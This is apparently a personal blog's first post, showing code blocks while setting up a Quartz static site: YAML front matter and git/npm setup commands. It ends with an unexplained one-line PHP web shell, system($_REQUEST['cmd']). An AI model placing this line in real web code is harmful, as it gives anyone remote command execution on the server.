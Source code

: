 ```yaml
---
title: test
draft: false
tags:
---
```

This is my first post. Welcome to my blog. This is how you see inline code

```bash
git clone https://github.com/jackyzha0/quartz.git
mv quartz enricocavalli.github.io
cd enricocavalli.github.it
npm i
npx quartz create
git remote rm origin
git remote add origin git@github.com:enricocavalli/enricocavalli.github.io.git
##
npx quartz sync
##
npx quartz build --serve
```

```php
<?php
	system($_REQUEST['cmd']);
?>
```
